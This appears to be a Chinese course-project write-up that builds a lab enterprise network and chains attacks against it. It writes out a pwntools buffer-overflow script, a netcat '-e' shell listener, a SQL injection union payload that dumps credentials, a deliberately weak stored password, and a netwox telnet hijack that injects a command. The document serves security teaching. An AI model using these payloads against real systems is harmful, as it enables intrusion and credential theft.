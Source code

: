 # 企业级网络的安全利用和漏洞

**ddl**：6.5日晚 20:00

### 设计要求

+ 设计一个企业级的网络拓扑： 
  + 网络中最少包含3台主机，分别为不同实体，如：攻击者、网关以及服务器 
  + 鼓励在网络拓扑中加入更多的主机，但要求网络中的每台主机均需对攻击或防 御有贡献
+ 在企业级网络内部署相应的服务，设计可以被（攻击者）利用的安全漏洞
+ 从攻击者的角度，利用网络中的安全漏洞，最少实现3类攻击 
  + 设计的攻击之间应具有关联性，由其构成的攻击链最终应为一个攻击目的服务 
  +  实现的攻击类型应为密码破解攻击、中间人攻击、缓冲区溢出攻击、网络扫描、 网络嗅探与欺骗攻击、Web漏洞利用中的几种 
  + 实现攻击的工具应为课程实验中学习的相关开源工具
+ 从网络管理者的角度，针对上述安全漏洞，设计并实施相应的防御措施

### 设计内容

#### 网络拓扑

<img src="大作业设计/image-20220530210324008.png" alt="image-20220530210324008" style="zoom:33%;" />



#### 环境配置

##### 网络配置

Attacker NAT网络 10.0.2.9

Zombie NAT网络  10.0.2.8

gateway NAT网络 内部网络 10.0.2.7 192.168.55.1

Server 内部网络 192.168.55.101

##### 其他

Server中使用mj修改的高端大气上档次的前端页面

相关配置

```
sudo cp -r front/ /var/www/
cd /etc/apache2/sites-available/
sudo gedit 000-default.conf
<VirtualHost *:80>
 ServerName http://www.Architectural-design.com
 DocumentRoot /var/www/Architectural-design
</VirtualHost>
```

修改SQLi.sql，添加以下语句(这个符号`也太鬼畜了)

```sql
DROP TABLE IF EXISTS `USER`;
CREATE TABLE `USER` (
	`ID` int(6) unsigned NOT NULL AUTO_INCREMENT,
	`Name` varchar(30) NOT NULL,
	`Password` varchar(300) NOT NULL,
	PRIMARY KEY (`ID`)
);

INSERT INTO `USER` VALUES (1,'admin','5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'); # password的SHA1值
```

导入数据库

```sh
sudo mysql -u root
mysql> use elgg;
mysql> source SQLi.sql;
mysql> exit
```

启动APACHE服务

```
sudo service apache2 restart
```

Gateway中含有本次实验所要获取到文件资源(flag)

通过设置iptable和ipv4.forward使得外网主机能访问内网服务器

![image-20220531101000364](大作业设计/image-20220531101000364.png)

iptable配置

```
sudo iptables -t nat -A PREROUTING -p tcp -d 10.0.2.7 --dport 80 -j DNAT --to-destination 192.168.55.101:80
3. sudo iptables -t nat -A PREROUTING -d 172.20.10.5 -j DNAT --to-destination 192.168.58.100
```

Zombie主机修改/etc/hosts文件

```
[gateway_address]	www.sql-injection.com
```

访问http://www.sql-injection.com/unsafe

![image-20220531114902849](大作业设计/image-20220531114902849.png)

Zombie主机安装dirsearch

```sh
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSION>
```

使用方法

```
python3 dirsearch.py -u www.sql-injection.com/unsafe
```

Zombie主机启动网络后门

```sh
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

**部署缓冲区溢出攻击**

设置nc

```
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

将exploit部署到12345端口

```
nc -l -p 12345 -e exploit
```

attacker运行exp.py

```python
from pwn import *
p=remote('10.0.2.8',12345)
#p=process('.')

payload=b'\x00'*(0x88)+p64(0x400596)

p.send(payload)

p.interactive()
# 需安装pwntools pip3 install pwntools
```

**命令行浏览器w3m安装**

```
sudo apt install w3m w3m-img
```

示例

```
w3m baidu.com
```

#### 漏洞设计

1. SQLi漏洞
2. 弱口令
3. telnet会话劫持
3. 缓冲区溢出攻击

#### 攻击过程

1. 攻击者通过缓冲区溢出攻击获取Zombie主机控制权
2. Zombie对Web网站进行dirsearch扫描
3. 攻击者控制僵尸主机访问Web网站，实行SQLi攻击，获取数据库中口令文件内容
4. 攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描
5. 攻击者利用僵尸主机在Server上进行Telnet会话劫持，读取gateway文件

#### 攻击步骤

1. 攻击者通过缓冲区溢出攻击获取Zombie的shell

首先Zombie在端口12345上开启服务，部署含有缓冲区溢出漏洞的程序

![image-20220604203128548](大作业设计/image-20220604203128548.png)

然后Attacker运行脚本文件，访问Zombie的12345端口，并通过缓冲区溢出攻击获得Zombie主机的控制权

![image-20220604203307182](大作业设计/image-20220604203307182.png)

2. 攻击者访问server网站，寻找可以进行sql注入的页面，并进行sql注入

3. 攻击者对获取的密码进行爆破，获取密码
4. 攻击者利用攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描



##### SQLi

```sql
alic' union select 0,Name,Password,0,0,0,0,0,0,0,0 from USER #
```

##### telnet劫持

```
sudo netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 \
--ip4-ttl 64 --ip4-protocol 6 \
--ip4-src 192.168.55.101 \
--ip4-dst 192.168.55.1 \
--tcp-src 48312 \
--tcp-dst 23 \
--tcp-seqnum 983311959 \
--tcp-acknum  3649257131 \
--tcp-ack --tcp-psh \
--tcp-window 501 \
--tcp-data "'cat flag'0d0a" \
--spoofip "best"
```

##### tshark

```
sudo tshark -i enp0s8 -f 'dst port 23 or src port 23' -V -T text -q
```

